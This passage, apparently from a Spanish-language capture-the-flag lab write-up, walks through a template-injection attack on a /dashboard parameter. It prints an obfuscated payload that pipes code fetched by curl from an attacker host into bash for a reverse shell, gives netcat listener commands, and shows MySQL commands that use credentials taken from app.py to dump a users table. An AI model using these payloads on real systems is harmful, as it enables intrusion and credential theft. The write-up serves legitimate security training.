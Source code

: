 Luego, la cookie se copió manualmente al navegador en almacenamiento → cookies para acceder al panel `/dashboard`.

### Vulnerabilidad SSTI en `/dashboard` (parámetro `qr_link`)

Se confirmó con un payload simple:

```bash
qr_link={{7*7}} → Resultado: 49
```

Se usó un payload SSTI avanzado para ejecutar una reverse shell:

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f \x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('curl 10.10.14.12:8000 | bash')|attr('read')()}}
```

En la máquina atacante:

```bash
python3 -m http.server 8000
nc -lvnp 4444
```

#### Resultado:
- Shell obtenida como usuario `www-data`.

![SSTI Shell - www-data](./images/ssti-shell.png)

---

## ⬆️ Fase 4: Escalada de privilegios

### Inspección de archivo sensible `/app/app.py`

Se encontraron credenciales de MySQL.

### Acceso a MySQL

```bash
mysql -uiclean -ppxCsmnGLckUb -Dcapiclean -e "SHOW TABLES;"
mysql -uiclean -ppxCsmnGLckUb -Dcapiclean -e "SELECT * FROM users;"
```

![Credenciales en app.py](./images/app_py_credentials.png)

#### Resultado:
- Las contraseñas estaban en hashes.
